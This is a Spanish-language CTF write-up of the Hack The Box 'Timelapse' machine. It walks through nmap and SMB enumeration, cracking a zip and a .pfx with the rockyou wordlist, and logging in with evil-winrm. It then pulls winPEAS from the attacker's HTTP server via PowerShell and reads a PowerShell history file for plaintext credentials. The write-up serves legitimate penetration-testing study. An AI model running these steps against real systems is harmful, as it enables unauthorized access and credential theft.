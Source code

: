```yaml
---
layout: post
author: Sergio Salgado
---
```


# [](#header-1)Maquina Timelapse

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#reconocimiento">Reconocimiento</a>
- <a href="#escaneo">Escaneo</a>
  - <a href="#gain_access">Gain Access</a>
  - <a href="#privilege_scalation">Escalamiento de privilegios</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
  
  Esta maquina es una de las faciles que ofrece HTB (hack the box), para ir comenzando en el mundo del pentest, es bueno ir documentando los pasos que se han tomado para lograr capturar las flags de objetivo de las maquinas

## [](#header-2)<a id="about_monero">Reconocimiento</a>

### [](#header-3)PING
En esta etapa, verificamos la conectividad con la maquina, escaneo de puertos y reconocimiento de servicios activos en los servicios.
**PING** Comunmente se utiliza un ping para verificar la comunicacion con la maquina a la que se realizara la prueba, pero el ping en linux esta en un loop infinito, hasta que se corta el proceso del comando. Es por ello que utilizaremos un ping discreto:

```s
ping -c 2 10.10.11.152
#ttl=63 o 64 significa que la maquina es linux
#ttl=127 o 128 significa que es windows
```
![Ping discreto](/assets/images/Timelapse/ping_discreto.png)

## [](#header-2)<a id="escaneo">Escaneo</a>

### [](#header-3)NMAP
**NMAP** Esta herramienta es utilizada por los administradores de redes para hacer un escaneo rapido y dependiendo de sus parametros de configuracion, profundizar en la busqueda de informacion. 
*Nota* Es importante no depender de esta herramienta ya que el escaneo es agresivo y en un entorno controlado, se pueden activar alarmas de intruision.
Para esta maquina, utilizaremos el siguiente comando:

```s
nmap -vvv -Pn -sCV -T4 -p0-65535 --reason -oN Timelapse.nmap 10.10.11.152
# -T4 o T5 para la velocidad de escaneo 
# -p0-65535 para una búsqueda en todos los puertos
# -vvv para visualizar las tareas que va completando(Esto es útil, por si llegamos a reconocer algún servicio explotable)
# -p0-65535 Para establecer el rango de puertos de busqueda
# -sCV es la combinacion de los comandos sC que es para el escaneo con scripts por default de nmap y sV que es para sondear los puertos abiertos
# -oN es la salida en el formato que establezcamos que comunmente es .nmap o podria ser en un .xml
# -O es para la deteccion del Sistema Operativo 
```

![nmap output](/assets/images/Timelapse/nmap_out.png)

Buscaremos si existen vulnerabilidades registradas en el sistema con la herramienta nmap y los scripts específicos de análisis para el protocolo samba:
La ruta especifica y filtrado del servicio que usaremos para la búsqueda y visualizarlos es:

```s
ls /usr/share/nmap/scripts | grep smb-vuln
```

![nmap specific search](/assets/images/Timelapse/nmap_specific.png)

El comando nos muestra que es vulnerable, y se cuenta con un CVE, con el cual habría que desarrollar una herramienta donde se use el buffer overflow y ejecutar un exploit diseñado para el sistema operativo.

## [](#header-2)<a id="gain_access">Gain Access</a>

### [](#header-3)Domain integration
**Integracion en dominio del servidor** Despues del escaneo, es posible descubrir algunos dominios del servidor, para poder establecer una comunicacion correcta con los servicios nos integraremos con los dominios encontrados. Modificando el archivo que se encuentra en /etc/hosts para poder editarlo y relacionar la IP de la maquina con el dominio encontrado. 
*Nota* A lo largo de la prueba, se pueden encontrar mas dominios asociados a la ip y sera necesario regresar a este archivo para modificarlo.

```s
nano /etc/hosts
```
![Integracion de maquina en el dominio](/assets/images/Timelapse/domain_integration.png)

Notamos que el puerto 445 esta expuesto, normalmente usado para el servicio smb de Windows y a continuacion utilizaremos otras herramientas para verificarlo.

Ocuparemos la herramienta enum4linux para obtener algunos usuarios por el servicio de smb

```s
enum4linux -a 10.10.11.152
```

![enum4linux output](/assets/images/Timelapse/enum_view.png)

Con el siguiente comando, descubriremos algunos directorios compartidos que no tienen contrasenas

```s
smbclient --no-pass --list=10.10.11.152
```

![smb no pass output](/assets/images/Timelapse/smb_output.png)

Para conectarnos al rpc y obtener mas informacion, utilizaremos el siguiente comando y en la imagen adjunta hay otros comandos que podrian ser de ayuda en la recopilacion de informacion.

```s
rpcclient -U "" -N 10.10.11.152
```

![rpc output](/assets/images/Timelapse/rpc_output.png)

Aplicaremos el siguiente comando para intentar establecer un acceso a un directorio en el que no tenemos acceso

```s
smbclient -U 'ANONYMOUS LOGON' -N \\\\10.10.11.152\\Share
```

Obtuvimos acceso, y ahora podemos descargar un archivo .zip con contrasena y dentro que un archivo cifrado dentro del directorio Dev
- Usamos el comando get para descargar el archivo .zip 

![Archivos descargados](/assets/images/Timelapse/files_downloaded1.png)

Usaremos una herramienta llamada frackzip, la cual se utiliza para descomprimir archivos zip, y para abrirlos por fuerza bruta, en este caso usaremos una wordlist que tiene integrado Kali:

```s
sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip”
```

![frackzip usage](/assets/images/Timelapse/fcrackzip.png)
La contraseña encontrada es supremelegacy, al encontrar contraseñas que parecen haber sido creadas por personas y no por algún algoritmo, nos damos cuenta de que la complejidad de las contraseñas no es alta.

Para romper con la seguridad de estos archivos, utilizaremos una herramienta obtenida de:
https://github.com/crackpkcs12/crackpkcs12.git
Para su instalación, utilizaremos los comandos:

```s
sudo apt install libssl-dev
sudo ./configure
make    
```

El comando que utilizaremos, para volver a usar la wordlist, es:

```s
crackpkcs12 -d /usr/share/wordlists/rockyou.txt ./legacyy_dev_auth.pfx
```

![crackpkcs12 usage](/assets/images/Timelapse/crackpkcs12.png)

La contraseña encontrada es thuglegacyy, esta la usaremos para ingresar en el servicio y generar una llave privada llamada priv.key y cert.crt

El comando que utilizaremos para establecer la conexion con el servicio, utilizar las credenciales obtenidas y despues ingresar la contrasena del archivo .pfx que anteriormente obtuvimos, por medio de openssl es:

```s
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
```

![Openssl example](/assets/images/Timelapse/openssl_prv.png)


Después será necesario generar un certificado cl e igualmente lo podemos generar con openssl

```s
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
#ingresamos nuevamente la contraseña thuglegacyy
```

A continuacion, estableceremos la coneccion, usando nuestra prv.key y el certificado cert.crt con:

```s
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
``` 

![Evil win output](/assets/images/Timelapse/evil-win.png)

Una vez dentro, navegamos al Escritorio, y con el comando 'type' podremos leer la flag 

![First flag](/assets/images/Timelapse/flag1.png)

## [](#header-2)<a id="privilege_scalation">Escalamiento de privilegios</a>
Despues del paso anterior, utilizaremos la siguiente herramienta para automatizar un poco el proceso de recopilacion de informacion y poder escalar privilegios mas rapido. ases/download/20220410/winPEASx64.exe

Abrimos un servicio http para poder descargarnos el archivo desde la maquina

```py
python3 -m http.server 80
```

![Python http server](/assets/images/Timelapse/python_http.png)

Con PowerShell, ejecutamos el siguiente comando para hacer la descarga

```powershell
powershell invoke-WebRequest -UseBasicParsing 10.10.14.153/winPEASx64.exe -OutFile winPEASx64.exe
```

![Uploading winPEAS tool](/assets/images/Timelapse/winpeas64.png)

Ejecutamos la herramienta y ahora sabemos que en el servicio de PowerShel, que se encuentra en la siguiente ruta, es vulnerable y quizas aqui encontremos credenciales para escalar privilegios.

```s
Users/legacyy/AppData/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
``` 

Nos descargamos el archivo de historia de comandos y lo visualizamos

![Powershell history](/assets/images/Timelapse/pwshell_history.png)

Historial de comandos, tambien hay algo interesante, en la parte de as a plain text nos muestra una contrasena y un usuario en texto plano

![Openning Powershell history](/assets/images/Timelapse/openning_pwshell_history.png)

LDAP es un protocolo de acceso para los servicios del directorio activo, y es el que utilizaremos para continuar navegando en la maquina intentando escalar los privilegios

![LDAP connection](/assets/images/Timelapse/ldap_conection.png)

Leemos la ultima bandera, con la contrasena que hemos obtenido; que igualmente se encuentra en el escritorio y habremos terminado la maquina
